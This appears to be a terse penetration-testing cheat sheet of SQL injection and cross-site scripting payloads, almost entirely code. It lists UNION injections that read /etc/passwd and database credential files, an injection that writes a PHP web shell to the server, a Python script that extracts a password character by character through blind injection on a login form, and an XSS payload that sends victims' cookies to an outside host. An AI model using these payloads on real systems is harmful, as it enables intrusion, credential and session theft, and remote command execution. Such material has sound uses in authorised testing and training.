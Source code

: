 ```

#Viewing files;
 http://<victim_ip>/test.php?id=3' union select 1,2, load_file('/var/www/mysqli_connect.php') ,4,5 -- -
 http://<victim_ip>/test.php?id=3' union select 1,2, load_file('/etc/passwd') ,4,5 -- -

 http://<ip>/room.php?cod=9999+union+select+"1","2",(To_base64(LOAD_FILE("/var/www/html/connection.php"))),"4","5","6","7" 
	
#Uploading files;
 http://<victim_ip>/test.php?id=3' union select null,null, load_file('/var/www/brc_shell.php') ,4,5 -- -
 http://<victim_ip>/test.php?id=3' union select null,null, "<?php exec($_GET['cmd']) ?>" ,4,5 into outfile '/var/www/brc_shell.php' -- -	
```

###  Blind ###

1. admin'-- - 


Autoscript python3

```py
import requests
chars = "0123456789abcdef"
def GetSQL(i,c):
    return "user' and substr(password,%s,1) = '%s' -- -" % (i,c)
for i in range(1,33):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':"randompassword"}
        r = requests.post('http://<ip>/login.php',data = payload)
        if 'Wrong identification' in r.text:
            print(c, end ='', flush=True)
            break
print()
```




******************************************************************************************************************************





******************************************************************************************************************************
# XSS ### 
```bash
<img src=http://<ip>/test.jpeg/>

<img src=x onerror=this.src="http://<ip>/?cookie="btoa(document.cookie)/>
```
******************************************************************************************************************************
